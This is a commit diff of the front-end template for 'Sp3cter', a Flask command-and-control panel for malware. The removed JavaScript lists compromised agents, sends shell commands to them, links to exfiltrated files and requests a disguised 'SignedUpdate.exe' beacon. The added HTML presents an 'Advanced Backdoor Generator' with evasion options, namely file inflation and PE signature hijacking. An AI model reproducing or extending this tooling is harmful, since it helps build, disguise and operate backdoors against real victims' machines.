

Before and after one commit to kr1pt0n/sp3cter, a Flask app: page / in a window 1280 px wide. Shown: the whole page at 89% size. Before the commit the page ends 785 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1); lists and menus that the app fills with data are empty; parts of the project's set-up code (start-up, migrations or seed data) failed here and were passed over.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -1,125 +1,217 @@
 <!DOCTYPE html>
-<html lang="es">
+<html lang="en">
 <head>
-    <meta charset="UTF-8">
-    <title>👻 Sp3cter</title>
-    <style>
-        :root { --aqua-blue: #5dade2; --aqua-dark: #2e86c1; --accent: #00ffcc; --bg: #0a0a0a; --panel: #1a1a1a; --text: #e0e0e0; }
-        * { box-sizing: border-box; font-family: 'Segoe UI', sans-serif; }
-        body, html { height: 100vh; margin: 0; background: var(--bg); color: var(--text); overflow: hidden; }
-        .main-layout { display: flex; flex-direction: column; height: 100vh; }
-        header { height: 35px; background: linear-gradient(to bottom, #444, #222); display: flex; align-items: center; padding: 0 20px; border-bottom: 1px solid #000; font-size: 0.75rem; font-weight: bold; color: #888; }
-        .config-bar { height: 70px; background: var(--panel); display: flex; align-items: center; padding: 0 25px; gap: 15px; border-bottom: 1px solid #333; }
-        .progress-container { height: 40px; background: #111; padding: 0 25px; border-bottom: 1px solid #222; display: none; align-items: center; gap: 20px; }
-        .aqua-progress-bg { flex: 1; height: 10px; background: #000; border-radius: 10px; overflow: hidden; border: 1px solid #333; }
-        .aqua-progress-bar { width: 0%; height: 100%; background: linear-gradient(to bottom, #5dade2, #2e86c1); border-radius: 10px; transition: width 0.3s ease; box-shadow: 0 0 8px var(--aqua-blue); position: relative; }
-        .agents-zone { height: 160px; overflow-y: auto; background: #0d0d0d; border-bottom: 1px solid #222; padding: 10px 20px; }
-        table { width: 100%; border-collapse: collapse; }
-        th { text-align: left; padding: 8px; font-size: 0.65rem; color: #555; text-transform: uppercase; border-bottom: 1px solid #222; }
-        td { padding: 8px; background: #121212; color: #999; font-size: 0.8rem; cursor: pointer; border-bottom: 1px solid #1a1a1a; }
-        .selected-row td { background: #1c2a38 !important; color: var(--aqua-blue); border-bottom: 1px solid var(--aqua-blue); }
-        .terminal-container { flex: 1; margin: 15px 20px; display: flex; flex-direction: column; background: #000; border: 1px solid #333; border-radius: 12px; box-shadow: 0 10px 40px rgba(0,0,0,0.6); overflow: hidden; }
-        #console-output { flex: 1; padding: 20px; overflow: auto; font-family: 'Consolas', monospace !important; font-size: 14px; line-height: 1.2; white-space: pre !important; color: #ccc; margin: 0; }
-        .task-line { color: var(--accent); font-weight: bold; }
-        .dl-box { display: inline-block; white-space: normal; margin: 10px 0; padding: 12px; border: 1px solid var(--aqua-dark); background: rgba(46,134,193,0.15); border-radius: 10px; font-family: 'Segoe UI', sans-serif; vertical-align: middle; }
-        .terminal-input-line { background: #080808; padding: 12px 20px; border-top: 1px solid #222; display: flex; align-items: center; gap: 12px; }
-        .path-label { color: var(--accent); font-weight: bold; font-family: 'Consolas', monospace; font-size: 0.9rem; white-space: nowrap; }
-        .cmd-box { flex: 1; background: transparent; border: none; color: #fff; outline: none; font-size: 0.9rem; font-family: 'Consolas', monospace; }
-        .input-aqua { background: #000; border: 1px solid #444; border-radius: 15px; color: #fff; padding: 5px 12px; font-size: 0.8rem; outline: none; width: 150px; }
-        .btn-aqua { background: linear-gradient(to bottom, #5dade2, #2e86c1); border: none; border-radius: 20px; color: white; padding: 8px 22px; font-size: 0.7rem; font-weight: bold; cursor: pointer; box-shadow: 0 2px 4px #000; }
-        .btn-clip { background: #333; border-radius: 50%; width: 32px; height: 32px; display: flex; align-items: center; justify-content: center; cursor: pointer; border: 1px solid #555; }
-    </style>
+  <meta charset="UTF-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
+  <title>Sp3cter C2</title>
+
+  <link rel="preconnect" href="https://fonts.googleapis.com">
+  <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
+  <link href="https://fonts.googleapis.com/css2?family=Inter:wght@400;500;600;700&family=JetBrains+Mono:wght@400;500&display=swap" rel="stylesheet">
+
+<link rel="stylesheet" href="{{ url_for('static', filename='css/style.css') }}">
 </head>
 <body>
-<div class="main-layout">
-    <header>👻 Sp3cter</header>
-    <div class="config-bar">
-        <label style="font-size:0.65rem">LHOST</label><input type="text" id="v_host" class="input-aqua">
-        <label style="font-size:0.65rem">LPORT</label><input type="text" id="v_port" value="5000" class="input-aqua" style="width:70px">
-        <div class="btn-clip" onclick="document.getElementById('sig_file').click()">📎</div>
-        <input type="file" id="sig_file" style="display:none" onchange="document.getElementById('fn').innerText = this.files[0].name.substring(0,12)">
-        <span id="fn" style="font-size:0.6rem; color:#444; width:80px; overflow:hidden;">No template</span>
-        <div style="flex-grow:1"></div>
-        <button class="btn-aqua" id="gen-btn" onclick="compile()">GENERATE SIGNED BEACON</button>
+
+<div class="app-shell">
+
+  <!-- TOP HEADER -->
+  <header class="topbar panel">
+   <div class="brand-wrap" style="display: flex; align-items: center; gap: 30px;">
+                <div style="display: flex; align-items: center;">
+                    <div class="brand-logo">C2</div>
+                    <div class="brand-divider"></div>
+                    <div class="brand-title">ZENTRYX<span>C&C</span></div>
                 </div>
-    <div class="progress-container" id="prog-cont">
-        <span id="prog-text" style="font-size:0.6rem; color:var(--aqua-blue); font-weight:bold; width:200px;">STATUS: STANDBY</span>
-        <div class="aqua-progress-bg"><div class="aqua-progress-bar" id="prog-bar"></div></div>
+
+                <!-- SECCIÓN DE LEDS INDICADORES DE POTENCIA -->
+                <div class="topbar-status-center" style="display: flex; gap: 20px; align-items: center; font-family: 'JetBrains Mono', monospace; font-size: 11px; margin-left: 10px; border-left: 1px solid rgba(255,255,255,0.08); padding-left: 20px; height: 20px;">
+                    <!-- LED 1: Compilador -->
+                    <div style="display: flex; align-items: center; gap: 8px;">
+                        <span class="led led-green" style="width: 8px; height: 8px; background-color: #51d87d; border-radius: 50%; box-shadow: 0 0 8px #51d87d; display: inline-block;"></span>
+                        <span style="color: #7f95a6;">Compiler:</span> <b style="color: #fff;">OK</b>
                     </div>
-    <div class="agents-zone"><table><thead><tr><th>ID</th><th>HOSTNAME</th><th>IP</th><th>LAST SEEN</th></tr></thead><tbody id="agent-list"></tbody></table></div>
-    <div class="terminal-container">
-        <div id="console-output">[*] SP3CTER TERMINAL INITIALIZED...</div>
-        <div class="terminal-input-line">
-            <span class="path-label" id="path-label">C:\></span>
-            <input type="text" id="cmd-input" class="cmd-box" placeholder="Execute command..." onkeypress="handleCommand(event)">
+
+                    <!-- LED 2: Motor de Firmas -->
+                    <div style="display: flex; align-items: center; gap: 8px;">
+                        <span class="led led-green" style="width: 8px; height: 8px; background-color: #51d87d; border-radius: 50%; box-shadow: 0 0 8px #51d87d; display: inline-block;"></span>
+                        <span style="color: #7f95a6;">PE Signature Engine:</span> <b style="color: #fff;">READY</b>
+                    </div>
+
+                    <!-- LED 3: Buffer de Inflación -->
+                    <div style="display: flex; align-items: center; gap: 8px;">
+                        <span class="led led-green" style="width: 8px; height: 8px; background-color: #51d87d; border-radius: 50%; box-shadow: 0 0 8px #51d87d; display: inline-block;"></span>
+                        <span style="color: #7f95a6;">Inflation Buffer:</span> <b style="color: #fff;">ACTIVE</b>
                     </div>
                 </div>
             </div>
-<script>
-    let selectedAgent = null; let agentHistory = {};
-    window.onload = () => { document.getElementById('v_host').value = window.location.hostname; };
 
-    function addLog(msg, type = "output", aid = null) {
-        const target = aid || selectedAgent; if (!target) return;
-        if (!agentHistory[target]) agentHistory[target] = "";
-        let content = msg;
-        if (msg.includes('---PATH---')) {
-            const pts = msg.split('---PATH---');
-            content = pts[0];
-            document.getElementById('path-label').innerText = pts[1].trim() + ">";
-        }
-        let formatted = (type === "task") ? `\n<span class="task-line">> ${msg}</span>\n` : content.replace(/d-----/g, '<span style="color:orange">d-----</span>').replace(/-a----/g, '<span style="color:var(--aqua-blue)">-a----</span>');
-        agentHistory[target] += formatted;
-        if (target === selectedAgent) { const out = document.getElementById('console-output'); out.innerHTML = agentHistory[selectedAgent]; out.scrollTop = out.scrollHeight; }
-    }
+    <div class="topbar-right">
+      <div class="clock">23:48</div>
+      <div class="topbar-divider"></div>
+         <div class="operator">
+      <div class="operator-info">
+        <span>Offensive Security Analyst</span>
+        <a href="/logout" class="logout-link">TERMINATE_SESSION</a>
+      </div>
+      <div class="avatar"></div>
+    </div>
+  </div>
+  </header>
 
-    async function fetchAgents() {
-        try {
-            const r = await fetch('/api/v1/operator/list'); const data = await r.json();
-            const list = document.getElementById('agent-list'); list.innerHTML = '';
-            for (const id in data) {
-                const tr = document.createElement('tr'); if(selectedAgent === id) tr.className = 'selected-row';
-                tr.onclick = () => { selectedAgent = id; document.getElementById('console-output').innerHTML = agentHistory[id] || ''; fetchAgents(); };
-                tr.innerHTML = `<td>${id}</td><td>${data[id].hostname}</td><td>${data[id].ip}</td><td>${data[id].last_seen}</td>`;
-                list.appendChild(tr);
-            }
-        } catch(e) {}
-    }
+  <!-- LEFT SIDEBAR -->
+  <aside class="sidebar panel">
+    <div class="sidebar-head">
+      <h3>BEACONS & AGENTS</h3>
+      <span>•••</span>
+    </div>
 
-    async function fetchResults() {
-        if (!selectedAgent) return;
-        const r = await fetch(`/api/v1/operator/results/${selectedAgent}`); const data = await r.json();
-        data.results.forEach(res => addLog(res, "output"));
-        data.files.forEach(f => {
-            const html = `\n<div class="dl-box"><span style="color:var(--aqua-blue); font-weight:bold;">[+] EXFILTRATION SUCCESS: </span><a href="/api/v1/operator/download_file/${selectedAgent}/${f}" target="_blank" style="color:var(--accent); font-weight:bold; text-decoration:underline;">DOWNLOAD ${f}</a></div>\n`;
-            agentHistory[selectedAgent] += html;
-            if (selectedAgent) { document.getElementById('console-output').innerHTML = agentHistory[selectedAgent]; }
-        });
-    }
+    <div class="status-switch">
+      <button class="active">Equipo</button>
+      <button class="active">Status</button>
+    </div>
 
-    function handleCommand(e) { if (e.key === 'Enter' && e.target.value.trim() !== '') { fetch('/api/v1/operator/push', {method:'POST', headers:{'Content-Type':'application/json'}, body:JSON.stringify({id:selectedAgent, cmd:e.target.value})}); addLog(e.target.value, "task"); e.target.value = ''; } }
+    <div class="table-head">
+      <span>UNITS</span>
+      <span>LABELS</span>
+    </div>
 
-    function setProgress(val, text) { document.getElementById('prog-bar').style.width = val + "%"; document.getElementById('prog-text').innerText = "STATUS: " + text.toUpperCase(); }
-    async function compile() {
-        const cont = document.getElementById('prog-cont'); const btn = document.getElementById('gen-btn');
-        cont.style.display = "flex"; btn.disabled = true; setProgress(15, "Compilando...");
-        const fd = new FormData();
-        fd.append('v_host', document.getElementById('v_host').value);
-        fd.append('v_port', document.getElementById('v_port').value);
+    <div class="agents-list" id="agents-container">
+    <!-- Se llenará solo mediante app.js -->
+</div>
 
-        // FIX CRÍTICO: Mandar el archivo real (.files[0])
-        const fileInput = document.getElementById('sig_file');
-        if (fileInput.files.length > 0) fd.append('template_file', fileInput.files[0]);
+    <div class="sidebar-footer">
+      <div class="mini-btn">⌨</div>
+      <div class="mini-btn">⚙</div>
+    </div>
+  </aside>
 
-        let p = 15; const interval = setInterval(() => { if (p < 90) { p += 2; setProgress(p, p < 50 ? "Bloating..." : "Signing..."); } }, 400);
-        try {
-            const r = await fetch('/generate', { method: 'POST', body: fd });
-            clearInterval(interval); if (!r.ok) throw new Error(); setProgress(100, "¡Done!");
-            const b = await r.blob(); const a = document.createElement('a'); a.href = URL.createObjectURL(b); a.download = "SignedUpdate.exe"; a.click();
-        } catch(e) { clearInterval(interval); setProgress(0, "Error"); }
-        finally { setTimeout(() => { cont.style.display = "none"; btn.disabled = false; }, 3000); }
-    }
-    setInterval(fetchAgents, 3000); setInterval(fetchResults, 2000);
-</script>
+  <!-- TOP METRICS -->
+<section class="cards-row">
+  <!-- Tarjeta 1: Estado de Conexión -->
+<div class="metric-card panel">
+    <h4>MISSION STATUS</h4>
+
+    <div class="metric-content">
+        <div class="metric-main status-main" id="status-text">
+            DISCONNECTED
+        </div>
+    </div>
+
+    <p class="metric-label" id="status-desc">
+        C2 Sync required
+    </p>
+</div
+ <!-- Tarjeta 2: Active Beacons -->
+    <div class="metric-card panel">
+        <h4>ACTIVE BEACONS</h4>
+        <div class="metric-content">
+            <div class="metric-big" id="beacon-count-big">1<span>/ 10</span></div>
+            <p class="metric-label">Beacons active</p>
+        </div>
+    </div>
+
+    <!-- Tarjeta 3: Online Operators -->
+    <div class="metric-card panel">
+        <h4>ONLINE OPERATORS</h4>
+        <div class="metric-content">
+            <div class="metric-big" id="operator-count-big">0<span>/ 10</span></div>
+            <p class="metric-label">Admin sessions</p>
+        </div>
+    </div>
+
+    <!-- Tarjeta 4: Alerts -->
+    <div class="metric-card panel danger-card">
+        <h4>ALERTS</h4>
+        <div class="metric-content">
+            <div class="metric-big red-text" id="alert-count">0</div>
+            <p class="metric-label">Requires attention</p>
+        </div>
+    </div>
+</section>
+
+<aside class="rightbar" style="display: flex; flex-direction: column; height: 100%;">
+    <!-- GENERADOR DE AGENTES AVANCED (UNIFICADO Y EXPANDIDO) -->
+    <div class="panel widget generator" style="display: flex; flex-direction: column; height: 100%; box-sizing: border-box;">
+        <h3 class="widget-title" style="margin-bottom: 15px;">ADVANCED BACKDOOR GENERATOR</h3>
+
+        <label>TARGET OS</label>
+        <select id="v_os" class="fake-input" style="background:#1a252f; border:1px solid rgba(255,255,255,0.05); color:#fff; width:100%; height:32px; border-radius:6px; padding:0 10px; margin-bottom:12px; box-sizing: border-box;">
+            <option value="windows" selected>Windows (.EXE)</option>
+            <option value="linux">Linux (.ELF)</option>
+            <option value="mac">macOS (.MACH-O)</option>
+        </select>
+
+        <label>TARGET IP/HOST</label>
+        <input type="text" id="v_host" name="v_host" class="fake-input" placeholder="e.g., 192.168.1.100" style="margin-bottom:12px;">
+
+        <label>PORT</label>
+        <input type="text" id="v_port" name="v_port" class="fake-input" placeholder="e.g., 5000" style="margin-bottom:12px;">
+
+        <div style="display: flex; gap: 10px; margin-bottom: 12px;">
+            <div style="flex: 1;">
+                <label>BEACON INTERVAL (s)</label>
+                <input type="number" id="v_interval" class="fake-input" value="5" min="1" style="width: 100%; box-sizing: border-box;">
+            </div>
+            <div style="flex: 1;">
+                <label>INFLATION BUFFER (MB)</label>
+                <input type="number" id="v_inflation" class="fake-input" value="50" min="0" style="width: 100%; box-sizing: border-box;">
+            </div>
+        </div>
+
+        <!-- Contenedor con Flex para alinear perfectamente la caja de texto y el botón Attach -->
+        <div id="windows-options" style="margin-bottom: 15px;">
+            <label>PE HIJACKING SIGNATURES</label>
+            <div style="display: flex; width: 100%; height: 32px; box-sizing: border-box;">
+                <input type="file" id="template_file" name="template_file" style="display:none;">
+                <div id="file-name-display" style="border: 1px solid rgba(255,255,255,.08); border-right: none; border-radius: 6px 0 0 6px; background: #172433; padding: 0 12px; font-size: 12px; flex: 1; overflow: hidden; display: flex; align-items: center; white-space: nowrap; text-overflow: ellipsis; height: 100%; box-sizing: border-box; color: #7f95a6;">No file selected</div>
+                <button type="button" class="btn-attach" onclick="document.getElementById('template_file').click()" style="border: 1px solid rgba(255,255,255,.08); border-radius: 0 6px 6px 0; background: var(--cyan); color: #000; font-weight: bold; padding: 0 15px; cursor: pointer; font-size: 11px; height: 100%; box-sizing: border-box; transition: opacity 0.2s;">Attach EXE</button>
+            </div>
+        </div>
+
+        <button class="generate-btn" id="btn-generate" onclick="triggerPayloadGeneration()" style="margin-top: 5px; margin-bottom: 15px; width: 100%; height: 36px; box-sizing: border-box;">GENERATE & ENCRYPT</button>
+
+        <!-- Contenedor dinámico que se estira y ocupa todo el espacio inferior restante sin dejar huecos -->
+        <div id="generation-status-box" style="display: none; flex: 1; flex-direction: column; border-top: 1px solid rgba(255,255,255,0.08); padding-top: 12px; box-sizing: border-box; min-height: 0;">
+            <div style="display: flex; justify-content: space-between; font-size: 11px; margin-bottom: 5px;">
+                <span id="progress-phase-text" style="color: var(--cyan);">INITIATING...</span>
+                <span id="progress-percent">0%</span>
+            </div>
+            <!-- Barra de progreso -->
+            <div style="width: 100%; height: 6px; background: rgba(255,255,255,0.1); border-radius: 3px; overflow: hidden; margin-bottom: 12px; min-height: 6px;">
+                <div id="generation-progress-bar" style="width: 0%; height: 100%; background: linear-gradient(90deg, var(--cyan), var(--green)); transition: width 0.3s ease;"></div>
+            </div>
+
+            <label style="font-size: 10px; color: var(--muted); margin-bottom: 5px; display: block;">COMPILATION VERBOSE OUTPUT</label>
+            <!-- Cuadro Verbose estirado dinámicamente ocupando el 100% de la base disponible -->
+            <div id="generation-verbose" style="flex: 1; width: 100%; background: #080f16; border: 1px solid rgba(255,255,255,0.05); border-radius: 6px; padding: 10px; font-family: 'JetBrains Mono', monospace; font-size: 10px; color: #51d87d; overflow-y: auto; white-space: pre-wrap; line-height: 1.4; box-sizing: border-box;"></div>
+
+            <div class="success-msg" id="success-msg" style="display: none; margin-top: 10px; font-size: 12px; line-height: 1.3; min-height: auto;">
+                Agent payload successfully created and encrypted.
+            </div>
+        </div>
+    </div>
+</aside>
+
+  <!-- CONSOLE -->
+<section class="console panel">
+  <div class="console-title">SHELL EXEC <span id="active-target" style="color:var(--cyan); margin-left:10px;">[NO AGENT SELECTED]</span></div>
+
+  <div class="console-wrapper" style="height: calc(100% - 40px); display: flex; flex-direction: column;">
+    <!-- Área donde se ven los logs -->
+    <pre id="console-pre" style="flex: 1; overflow-y: scroll; scroll-behavior: smooth; padding: 15px; background: rgba(0,0,0,0.15); border-radius: 4px; margin-bottom: 10px; min-height: 0; max-height: calc(100vh - 420px);">
+    </pre>
+
+    <!-- Input para escribir comandos -->
+  <div class="command-line">
+    <span id="shell-path">C:\></span>
+    <span class="prompt-symbol">>></span>
+    <input type="text" id="shell-input" placeholder="Type a command...">
+</div>
+  </div>
+</section>
+
+</div>
+<script src="{{ url_for('static', filename='js/app.js') }}"></script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
